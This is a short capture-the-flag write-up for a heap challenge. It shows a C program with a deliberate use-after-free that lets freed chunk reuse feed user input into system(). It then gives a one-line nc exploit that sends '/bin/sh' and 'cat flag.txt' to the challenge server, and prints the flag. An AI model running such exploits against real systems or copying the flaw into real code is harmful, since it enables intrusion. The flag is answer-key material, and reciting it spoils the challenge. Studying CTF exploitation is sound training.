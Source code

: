 # The First Fit

## Task

We get the source

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
  int choice, choice2;
  char *a = malloc(128);
  char *b;
  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);
  while (1) {
    printf("a is at %p\n", a);
    printf("b is at %p\n", b);
    printf("1: Malloc\n2: Free\n3: Fill a\n4: System b\n> ");
    scanf("%d", &choice);
    switch(choice) {
      case 1:
              printf("What do I malloc?\n(1) a\n(2) b\n>> ");
              scanf("%d", &choice2);
              if (choice2 == 1)
                a = malloc(128);
              else if (choice2 == 2)
                b = malloc(128);
              break;
      case 2:
              printf("What do I free?\n(1) a\n(2) b\n>> ");
              scanf("%d", &choice2);
              if (choice2 == 1)
                free(a);
              else if (choice2 == 2)
                free(b);
              break;
      case 3: printf(">> "); scanf("%8s", a); break;
      case 4: system((char*)b); break;
      default: return -1;
    }
  }
  return 0;
}
```

## Solution

We need to make a and b point to the same memory
location. This is easily achieved because the pointers
don't get cleared, so we just allocate a, free a
then allocate b and they are the same pointer. Wow, magic!
Then we just fill a with /bin/sh (or directly cat flag.txt)
and then system b.

Onliner solve:

`echo "1\n1\n2\n1\n1\n2\n3\n/bin/sh\n4\ncat flag.txt" | nc chal.imaginaryctf.org 42003`

Gives us the flag `ictf{w3lc0me_t0_h34p_24bd59b0}`
